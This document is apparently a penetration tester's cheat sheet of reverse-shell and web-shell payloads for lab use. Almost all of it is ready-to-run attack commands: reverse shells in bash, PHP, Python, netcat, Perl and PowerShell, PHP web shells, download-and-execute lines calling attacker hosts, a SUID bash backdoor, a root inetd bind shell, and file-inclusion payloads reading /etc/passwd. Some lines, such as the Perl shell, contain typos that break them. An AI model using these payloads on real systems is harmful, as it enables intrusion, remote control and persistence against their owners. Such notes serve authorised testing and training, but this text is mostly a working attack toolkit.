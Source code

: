 ## RevShells

#### BASH
```bash
bash -i >& /dev/tcp/192.168.45.178/22 0>&1

echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/pwned\nchmod 4777 /tmp/pwned' >> full-checkup.sh
chmod +x full-checkup.sh
/tmp/pwned -p
```
#### PHP

```bash
php -r '$sock=fsockopen("192.168.45.178", 60001);exec("/bin/sh -i <&3 >&3 2>&3");'

cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
python3 -m http.server
nc -nlvp 443
<?php system("wget http://192.168.45.178/shell.php -O /tmp/shell.php;php /tmp/shell.php");?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

 &cmd=whoami or ?cmd=whoami
<?php shell_exec($_GET["cmd"]);?>
<?php system($_GET["cmd"]);?>
<?php echo passthru($_GET['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

echo '<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>' > shell.php
shell.php&cmd=
```

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",22));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
nc -nlvp 22
or

192.168.49.140

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.163 80 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 80 >/tmp/f

busybox nc $ip 5000 -e /bin/bash

certutil.exe -urlcache -split -f http://192.168.45.195:443/nc.exe C:\Windows\Tasks\nc.exe & C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.195 80
```

#### Perl

```bash
perl -e 'use Socket:$i="192.168.45.163";$0=443;socket(S,PF INET,SOCK STREAM, getprotobyname("tcp")); if(connect (S, sockaddr_in($p,inet_aton ($i)))) {open(STDIN, ">&S") ; open (STDOUT, ">&S") ;open (STDERR, ">&S") ;exec("/bin/sh -i"T;};'
```

#### CMD

```bash
'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.178:8000/rev.ps1") | powershell 
-noprofile'
````

General:

- “Curl ip/reverse.sh | bash” not a bad idea.
- wget'ing to tmp, chmod +x, then bash -c /tmp/pwn.sh

#### PsExec

If you have creds and can't get psexec onto the box, try it locally to get a shell

```bash
proxychains psexec.py USERC:USERCishere@10.11.1.50 cmd.exe
```

#### Bypass Python 2 input()

```bash
__import__('os').system('/bin/bash -p')
```

#### Use ConPty Windows Shell

Make sure to copy raw file whenever copy-pasting from GitHub.

WHENEVER YOU'RE SENDING A POST REQUEST, INCLUDE THE CONTEXT-TYPE HEADER, like 'Content-Type: application/x-www-form-urlencoded'.

```bash
include=echo+WAZZUP%3b
include=/etc/passwd
include=http://10.10.14.8:8000/fake
include=http://10.10.14.8:8000/reverse-shell.php
include=reverse-shell.php
```
When testing for a php reverse shell, you can make a simple php file that says "echo WAZZUP;" and check whether "WAZZUP" is returned in the response.

If that doesn't work, you could have him connect back to us so that we could crack the hash.

```bash
cat conpty.php
system("powershell IEX(IWR http://10.10.14.8:8000/conpty.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 80");
```

#### Inet Bind Shell ??

```bash
"echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
nc -nv $ip 31337
```

#### Windows nc.exe

This is a reliable reverse shell from Windows computer. If you can upload a file, try msfvenom payload, and if that doesn't work, upload a nc.exe binary and try 

```bash
.\nc.exe -nv 192.168.XX.XX 445 -e cmd.exe
```

#### Two-Parter via File Upload Vuln

Upload netcat.exe, then php file that will trigger it.

```php
<?php
system('netcat.exe -vv 192.168.4.178 443 -e cmd.exe');
?>
```